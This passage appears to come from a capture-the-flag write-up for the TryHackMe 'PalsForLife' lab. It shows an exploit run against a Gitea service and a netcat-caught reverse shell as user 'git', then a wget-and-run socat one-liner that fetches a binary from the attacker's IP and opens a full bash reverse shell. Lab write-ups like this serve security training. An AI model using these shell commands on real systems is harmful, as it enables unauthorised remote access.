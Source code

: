 ```
Initialized empty Git repository in /tmp/tmp.tUXZySn4qn/.git/
[master (root-commit) 1c7c65b] Initial commit
 1 file changed, 1 insertion(+)
 create mode 100644 README.md
Enumerating objects: 3, done.
Counting objects: 100% (3/3), done.
Writing objects: 100% (3/3), 249 bytes | 249.00 KiB/s, done.
[+] Exploit completed !
```

```
┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# rlwrap -cAr nc -lvnp 443               
listening on [any] 443 ...
connect to [10.18.61.134] from (UNKNOWN) [10.10.208.216] 42148
bash: cannot set terminal process group (14): Not a tty
bash: no job control in this shell
bash-4.4$ whoami;hostname;id;ip a
git
gitea-0
uid=1000(git) gid=1000(git) groups=1000(git),1000(git)
[...]
3: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 8951 qdisc noqueue state UP 
    link/ether c2:83:24:15:49:73 brd ff:ff:ff:ff:ff:ff
    inet 10.42.0.14/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::c083:24ff:fe15:4973/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `git` now!

**Stable shell via `socat`:**
```
┌──(root💀siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80

bash-4.4$ wget http://10.18.61.134/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.18.61.134:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root💀siunam)-[~/ctf/thm/ctf/PalsForLife]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/03 03:14:19 socat[42308] N opening character device "/dev/pts/2" for reading and writing
2022/09/03 03:14:19 socat[42308] N listening on AF=2 0.0.0.0:4444
                                                                 2022/09/03 03:14:23 socat[42308] N accepting connection from AF=2 10.10.208.216:33056 on AF=2 10.18.61.134:4444
                                                      2022/09/03 03:14:23 socat[42308] N starting data transfer loop with FDs [5,5] and [7,7]
                    bash-4.4$ 
bash-4.4$ stty rows 22 columns 121
bash-4.4$ export TERM=xterm-256color
bash-4.4$ ^C
```
